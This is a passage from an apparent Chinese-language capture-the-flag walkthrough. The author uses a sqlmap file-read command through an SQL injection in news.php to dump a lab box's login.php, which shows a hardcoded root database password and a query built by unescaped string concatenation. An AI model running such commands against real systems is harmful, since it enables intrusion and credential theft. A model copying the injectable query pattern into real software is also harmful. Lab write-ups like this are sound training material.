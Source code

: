 ```
            </div>
        <?php endif; ?>
    </div>
</body>
```

可以看到有一个参数可以控制，但是必须要**session**值正确，这里我尝试过写入**session**文件，但是不起作用。

读取一下**login.php**，看到了基本的登录逻辑，单引号闭合。

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/var/www/he110wor1d/littlesecrets/login.php 

<?php
// Database connection
$servername = "localhost";
$username = "root";
$password = "i_love_sing_dance_rap";
$dbname = "news_db";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

$login_error = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $sql = "SELECT id, username, password FROM users where username='$username'";
    $result = $conn->query($sql);
    if ($result->num_rows > 0) {
        $row = $result->fetch_assoc();
        if ($password === $row['password']) {
            session_start();
            $_SESSION['user_id'] = $row['id'];
            $_SESSION['username'] = $row['username'];
            header("Location: manager.php");
            exit();
        } else {
            $login_error = "Invalid username or password.";
        }
    } else {
        $login_error = "Invalid username or password.";
    }
}
$conn->close();

?>
```
